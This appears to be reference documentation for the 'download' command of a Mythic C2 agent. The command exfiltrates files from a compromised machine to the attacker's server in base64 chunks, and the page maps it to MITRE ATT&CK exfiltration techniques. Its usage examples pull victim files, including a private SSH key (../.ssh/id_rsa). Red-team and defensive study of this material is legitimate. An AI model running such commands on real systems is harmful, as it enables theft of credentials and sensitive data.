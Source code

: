 # 📥 `download` Command – Retrieve Remote Files

The `download` command transfers a file from the target (agent) machine back to the **Mythic server**, in **base64-encoded chunks**. It is an essential tool for extracting credentials, config files, and sensitive artifacts during post-exploitation.

---

## 🧾 Arguments

| Argument | Type     | Description                      | Required |
|----------|----------|----------------------------------|----------|
| `file`   | `string` | Absolute or relative path to file on the victim system | ✅ Yes   |

- You can provide the path directly, with or without quotes.
- Handles files on Windows, Linux, or macOS platforms.

---

## 💻 Usage Examples

```bash
download /home/user/secrets.txt
download C:\\Users\\Admin\\Desktop\\loot.docx
download ../.ssh/id_rsa
```

---

## 🔁 Behavior

- Resolves the path relative to the agent’s current directory if not absolute.
- Splits the file into chunks based on `CHUNK_SIZE`.
- Encodes each chunk in Base64 and sends it back to Mythic.
- Supports stopping mid-download if the task is cancelled.
- Returns a final JSON response containing the agent file ID.


---

## 🧩 MITRE ATT&CK Mapping

| Technique ID | Name                                |
|--------------|-------------------------------------|
| T1020        | Automated Exfiltration              |
| T1030        | Data Transfer Size Limits           |
| T1041        | Exfiltration Over C2 Channel        |

---

## 📦 File Transfer Workflow

1. 🧠 Client requests file download.
2. 📊 Agent calculates total chunks and chunk size.
3. 🧱 File is read in binary mode and divided.
4. 🔐 Each chunk is Base64 encoded and posted to Mythic.
5. 🧾 Final response includes unique file ID.

---

## ✅ Supported Platforms

- ✅ Linux
- ✅ Windows
- ✅ macOS

Compatible with:
- Python 2.7
- Python 3.8+

---

## 🔐 Permissions

- Does **not** require administrative privileges.
- Agent must have **read access** to the specified file.

---


